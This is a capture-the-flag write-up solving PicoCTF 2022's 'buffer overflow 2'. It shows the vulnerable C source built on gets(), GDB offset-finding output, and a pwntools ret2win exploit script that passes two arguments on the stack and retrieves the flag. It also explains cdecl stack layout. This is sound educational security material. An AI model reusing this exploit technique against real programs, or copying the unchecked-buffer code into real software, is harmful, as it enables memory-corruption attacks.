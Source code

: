 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 2"
categories: 
  - Binary Exploitation
tags:
  - pwn
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: "A ret2win challenge that involves parameters on the call stack."
author_profile: false
sidebar:
  nav: "navbar"
---
```


A ret2win challenge that involves parameters on the call stack.

## Preamble - The Call Stack

Referring to the following diagram of a call stack,
![Call Stack](https://avinetworks.com/wp-content/uploads/2020/06/buffer-overflow-diagram.png)

We wish to note the relative locations of the base pointer, return function and parameters on our call stack. This will come in handy later.

## My Solution

As usual, we will look at the `vuln` binary. Using `checksec`, we observe the following:

```bash
$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

From this, we can crucially see that the file is a 32-bit little-endian ELF file with no stack canary. NX is enabled, but I don't think this will affect our approach for this challenge.

Now, looking at `vuln.c`, we can note down some interesting features.

```c
...
#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As mentioned earlier, parameters are involved in this challenge. We can see that the `win()` function takes in two parameters, `arg1` and `arg2`. Within the function, we can see that the win condition is fulfilled if and only if `arg1` and `arg2` are equivalent to `0xCAFEF00D` and `0xF00DF00D`.

Aside from this, nothing else seems out of the ordinary. We'll just need to insert our parameters into the call stack when we run our exploit.

Now, let's use `readelf` to find the function addresses.

```bash
$ readelf -s vuln
>> Symbol table '.symtab' contains 77 entries:
...
64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win
...
73: 08049372   122 FUNC    GLOBAL DEFAULT   15 main
...
```

For this challenge, we'll note down that the addresses of `win()` and `main()` are `0x08049296` and `0x08049372` respectively.

Let's find the offset to EIP using GDB.

```bash
$ gdb vuln
>> ...
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
...
gef➤  pattern offset $eip
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```

Therefore, the offset to EIP is 112.

We can now craft our exploit. Using Python 3 and pwntools:

```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 51325) # for remote execution

# payload buffer
payload = b'A' * 112 # offset
payload += p32(0x08049296) # win()
payload += p32(0x08049372) # main() - return function address
payload += p32(0xCAFEF00D) # param 1
payload += p32(0xF00DF00D) # param 2

p.recvline().decode("utf-8")
p.sendline(payload)
print(p.recvall())
```

```bash
[+] Opening connection to saturn.picoctf.net on port 51325: Done
picoCTF{argum3nt5_4_d4yZ_59cd5643}Please enter your string:

[*] Closed connection to saturn.picoctf.net port 51325
```

## Learning Takeaways

### How is this any different from a typical 32-bit ret2win challenge?

Recall that parameters are involved. This means that we need to craft our payload in such a manner that it can emulate a "normal" call stack.

For a standard 32-bit ret2win challenge, all we need to do is insert the address of our flag/win function into the buffer (which exists on the call stack). This was seen from our solution to the [buffer overflow 1](https://yhwong20.github.io/picoctf/binary%20exploitation/buffer-overflow-1/) challenge. This would alter the execution flow of our program, as we are now artificially inducing the execution of our flag function, by inserting it into the call stack.

What's different here, is that `win()` takes in 2 parameters. Hence, we need to add in these parameters into the call stack to trigger the win condition. If we do not insert the correct parameters, or if parameters are missing, it will cause the program to not execute correctly.

### Why does the payload look like that?

Recall the diagram of the call stack which was shown earlier, and the relative order of each region on the stack.

Firstly, for us to reach and overwrite the region of the call stack which stores parameters, we will need to go through the 4 byte space which stores the address of our return function. This means that the address of the return function must be added to the payload (after `win()`).

Normally, the return function would be `main()`, and this is also why I've chosen to preserve it in the payload (to ensure the program can run properly). However, I think it is also possible to insert any arbitrary address into the return address space (I've tried inserting `0x0` which worked just as fine). Ultimately, we just want to preserve the relative order of the stack in the payload, and this means that the return function address must be present.

Next, we'll insert our parameters. As per the **cdecl** calling conventions, which are used for x86 32-bit binaries, parameters are stored on the call stack in reverse order (generally speaking, the last argument is pushed onto the stack first, and the first argument is pushed last). This means that `arg2` is passed onto the call stack before `arg1`, and consequently, `arg2` is higher in memory than `arg1`. Since we want to emulate the call stack using our payload, we have to preserve the relative ordering of parameters as well.

Thus, we craft the payload in such a manner to ensure that `arg2` is higher in memory than `arg1`, and `win()` is as low in memory as possible (after the buffer). The earlier we insert something into the payload, the lower it should exist in memory, and this helps us maintain the relative structure and order of the call stack.

## References

- [John Hammond (YouTube): Pwntools & GDB for Buffer Overflow w/ Arguments (PicoCTF 2022 #43 'buffer-overflow2')](https://www.youtube.com/watch?v=26mEa1Ojux8&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=44)
- [CTF 101 - Calling Conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)
